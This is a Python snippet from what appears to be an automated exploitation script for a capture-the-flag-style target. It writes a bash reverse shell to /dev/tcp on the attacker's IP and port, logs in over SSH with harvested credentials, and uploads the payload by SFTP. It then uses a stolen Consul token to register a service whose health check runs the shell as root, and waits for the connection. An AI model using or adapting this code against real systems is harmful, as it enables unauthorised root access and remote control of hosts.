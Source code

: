 ```python
		shell_data = "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/{}/{} 0>&1".format(self.args.ip, self.args.port)

		with open(self.shell_file, 'w') as file:
			file.write(shell_data)

			log.info('File created : {}'.format(self.shell_file)); time.sleep(1)

		# consul service RCE file
		json_data = {
			"ID": "autopwn_shell",
			"Name": "pwn",
			"Address": "127.0.0.1",
			"Port": 80,
			"Check": {
				"DeregisterCriticalServiceAfter": "90m",
				"Args": ["/bin/bash", f"/tmp/.{self.args.ip}/shell.sh"],
				"Interval": "10s",
				"Timeout": "86400s"
			}
		}

		json_obj = dumps(json_data, indent=4)

		with open(self.json_file, 'w') as file:
			file.write(json_obj)

			log.info('File created : {}'.format(self.json_file)); time.sleep(1)

	def upload_files(self, ssh_client):
		with ssh_client.open_sftp() as sftp_client:
			sftp_client.put(self.shell_file, '/tmp/.{}/{}'.format(self.args.ip, self.shell_file))
			sftp_client.put(self.json_file, '/tmp/.{}/{}'.format(self.args.ip, self.json_file))

			log.info('Uploaded files'); time.sleep(1)

	def get_shell(self):
		try:
			ssh_client = self.ssh_connection(user=self.target_credentials['ssh']['user'],
											 password=self.target_credentials['ssh']['pass'])

			# create workstation
			ssh_client.exec_command('mkdir -p /tmp/.{}'.format(self.args.ip))

			# get token and upload required files
			self.get_consul_token(ssh_client)
			self.upload_files(ssh_client)
			
			# create service and send root shell
			command = "curl -X PUT 'http://localhost:8500/v1/agent/service/register?replace-existing-checks=true'" \
				+ f" -H 'X-Consul-Token: {self.target_credentials['consul']['token']}'" \
				+ f" --data @/tmp/.{self.args.ip}/{self.json_file}"

			ssh_client.exec_command(command)

			# listen mode to receive shell
			shell = listen(self.args.port, timeout=20).wait_for_connection()

			if shell.sock:
				log.info('Press Ctrl + D to exit.')
				shell.interactive()

```